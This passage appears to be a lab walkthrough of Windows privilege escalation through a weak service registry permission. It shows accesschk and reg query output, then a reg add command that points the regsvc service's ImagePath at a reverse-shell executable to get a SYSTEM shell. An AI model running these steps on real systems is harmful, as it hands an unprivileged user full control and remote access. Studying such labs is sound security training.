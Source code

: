 Some more recon using `accesschk.exe`:
```console
C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
```

Note that the registry entry for the regsvc service is writable by the `NT AUTHORITY\INTERACTIVE` group (essentially all logged-on users). Thus, we can simply overwrite the registry key for `regsvc` in _some_ way to make it execute our reverse shell executable (`reverse.exe`).


The task _instructs_ us to just overwrite the `ImagePath` registry key, but _why_? Time for some digging in...

After some serching around the web, I came across a command to fetch details about registry keys of a service. The general syntax is:

```console
Reg Query "Path to key"
```

Using this with the path to `regsvc` gives us the following output:

```console
C:\Users\user> reg query HKLM\System\CurrentControlSet\Services\regsvc

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc
    Type            REG_DWORD    0x10
    Start           REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath       REG_EXPAND_SZ    "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
    DisplayName     REG_SZ    Insecure Registry Service
    ObjectName      REG_SZ    LocalSystem

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc\Security
```

Sure enough, there we see the `ImagePath` entry and it corresponds to a _Quoted Path_ (It doesn't really matter if it is quoted or unquoted since we can just edit it, but it's better to be specific). We can now proceed as instructed and overwrite this entry:

```console
C:\Users\user> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
The operation completed successfully.
```

If we start a listener on our machine and start the `regsvc` service, we get a reverse shell with SYSTEM privileges. :)
